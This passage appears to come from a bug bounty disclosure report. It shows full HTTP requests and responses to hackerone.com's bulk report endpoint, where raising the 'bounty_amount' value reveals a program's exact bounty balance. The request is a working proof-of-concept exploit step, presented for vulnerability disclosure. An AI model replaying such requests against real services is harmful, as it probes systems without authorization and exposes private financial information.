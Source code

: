 ```
X-Frame-Options: DENY
X-Permitted-Cross-Domain-Policies: none
X-XSS-Protection: 1; mode=block
Server: cloudflare-nginx
CF-RAY: 3c5023b59bf660c0-MNL
Content-Length: 64

{"flash":"You have successfully awarded a bounty.","reports":[]}
```

As you can see here it's showing that `"You have successfully awarded a bounty"` on the response but try to make value of parameter name `bounty_amount` higher that on the request above. By use of that you can actually check the exact bounty balance of the bug bounty program .

Request with the exact bounty balance of the "HackerOne Program":

```
POST /reports/bulk HTTP/1.1
Host: hackerone.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Referer: ███
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 176
Connection: close

message=&substate=bounty-award&bounty_amount=31730&reference=&add_reporter_to_original=false&reply_action=set-bounty&reports_count=1&report_ids%5B%5D=240273&bounty_currency=USD
```
Response with the exact bounty balance of the "HackerOne Program":

```
HTTP/1.1 200 OK
Date: Tue, 28 Nov 2017 20:43:14 GMT
Content-Type: application/json; charset=utf-8
Connection: close
Cache-Control: private, no-cache, no-store, must-revalidate
Content-Disposition: inline; filename="response."
Content-Security-Policy: default-src 'none'; base-uri 'self'; connect-src 'self' www.google-analytics.com errors.hackerone.net; font-src 'self'; form-action 'self'; frame-ancestors 'none'; frame-src www.youtube-nocookie.com; img-src 'self' data: cover-photos.hackerone-user-content.com hackathon-photos.hackerone-user-content.com profile-photos.hackerone-user-content.com hackerone-attachments.s3.amazonaws.com; media-src 'self' hackerone-attachments.s3.amazonaws.com; script-src 'self' www.google-analytics.com; style-src 'self' 'unsafe-inline'; report-uri https://errors.hackerone.net/api/30/csp-report/?sentry_key=61c1e2f50d21487c97a071737701f598
Referrer-Policy: strict-origin-when-cross-origin
X-Content-Type-Options: nosniff
X-Download-Options: noopen
X-Frame-Options: DENY
X-Permitted-Cross-Domain-Policies: none
X-XSS-Protection: 1; mode=block
Server: cloudflare-nginx
CF-RAY: 3c502882d8246102-MNL
Content-Length: 64

{"flash":"You have successfully awarded a bounty.","reports":[]}
```
